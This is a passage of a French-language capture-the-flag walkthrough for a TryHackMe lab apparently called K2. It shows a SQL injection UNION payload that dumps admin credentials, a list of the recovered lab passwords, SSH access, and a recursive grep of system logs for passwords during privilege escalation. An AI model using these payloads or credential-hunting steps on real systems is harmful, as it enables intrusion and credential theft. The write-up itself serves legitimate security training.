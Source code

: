 ![admin_auth columns](/images/THM-K2/admin_auth_columns.png)

Nous pouvons maintenant récupérer les informations d'identification avec `admin_username` et `admin_password`.

```SQL
' UNION SELECT NULL, admin_username, admin_password FROM admin_auth; --
```

Nous obtenons plusieurs identifiants d'administrateur, les premiers étant : `james:Pwd@9tLNrC3!`.

```
james:Pwd@9tLNrC3!
rose:VrMAogdfxW!9
bob:PasSW0Rd321
steve:St3veRoxx32
cait:PartyAlLDaY!32
xu:L0v3MyDog!3!
ash:PikAchu!IshoesU!
```

![admin credentials](/images/THM-K2/SQLi_admin_creds.png)

### Accès initial (shell en tant que james)

Avec `james:Pwd@9tLNrC3!` nous pouvons nous connecter via SSH et lire le drapeau utilisateur.

![user flag for K2-basecamp](/images/THM-K2/user_flag_basecamp_k2.png)

## What is the root flag?

Nos tentatives de connexion avec les autres identifiants échouent. Après avoir lancé `id`, nous remarquons que `james` fait partie du groupe `adm`.

![adm group membership](/images/THM-K2/adm_group.png)

Sur cette [page HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe#lxc-lxd-group), nous apprenons que les membres du groupe `adm` ont généralement les permissions pour lire les fichiers log situés dans /var/log/.

![adm group info](/images/THM-K2/adm_group_info.png)

Pour analyser cette montagne de données, nous utilisons une commande grep.

```
grep -ir "password"
```

Dans `nginx/access.log.1` nous trouvons une tentative de connexion de l'utilisateur `rose` avec le mot de passe `RdzQ7MSKt)fNaz3!`.

![Rose password](/images/THM-K2/rose_pwd.png)

Mais l'utilisation de ce mot de passe avec `su rose` échoue!
